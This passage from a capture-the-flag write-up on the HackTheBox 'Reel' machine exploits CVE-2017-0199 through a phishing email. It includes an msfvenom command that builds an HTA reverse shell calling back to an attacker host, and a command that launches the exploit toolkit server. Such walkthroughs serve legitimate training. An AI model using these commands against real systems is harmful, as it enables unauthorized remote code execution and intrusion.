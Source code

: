 This time, the powershell code did execute, as we can see the target tried to fetch the `exe` payload from our server. This is also defined in the `server_thread_rtf()` function:

![fetch-exe-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/fetch-exe-21.png)

So at first, the target requests `sale.doc`, to which our server replies with HTML code that has a javascript payload to run powershell and fetch the real reverse shell `exe` payload from our target and execeute it. We can see this worked, but we still didn't get the shell. What could be the issue now?

I kept looking at the source code and I found an intersting option:

![hta-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/hta-22.png)

We know that `exe` files, along with other forms of executable formats are monitored by Applocker, perhaps it's the one blocking the execution of our `exe` ?

So instead we can try to use an `hta` paylaod. 

We can use `msfvenom` to generate an `hta` reverse shell as such:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.52 LPORT=443 -f hta-psh -o sale.hta
```

Then, we need to setup the toolkit server with:

```bash
python2 cve-2017-0199_toolkit.py -M exp -H /root/boxes/HackTheBox/Reel/sale.hta
```

Now after we send the email to the target we connect on a shell:

![shell-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/shell-23.png)
